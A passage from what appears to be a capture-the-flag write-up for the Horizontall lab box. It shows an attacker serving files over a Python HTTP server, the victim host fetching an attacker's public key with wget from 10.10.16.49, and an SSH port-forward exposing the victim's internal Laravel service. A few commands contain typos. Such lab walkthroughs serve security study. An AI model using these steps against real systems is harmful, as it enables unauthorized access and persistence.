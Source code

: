 ```
## On Attacker's server
# python3 -m SimplpeHTTPServer
```
```
## On victim's Server
# wget http:/10.10.16.49:8000/<path of publickey>
```

- Then port forwarding the Laravel service to our server's port by SSH

```
# ssh -i key -L 8000:127.0.0.1:8000  strapi@horizontall.htb
```
![](./IMG/37.png)
- Check the localhost service, we lauch up the service on our port 8000 from victim's server.

![](./IMG/38.png)

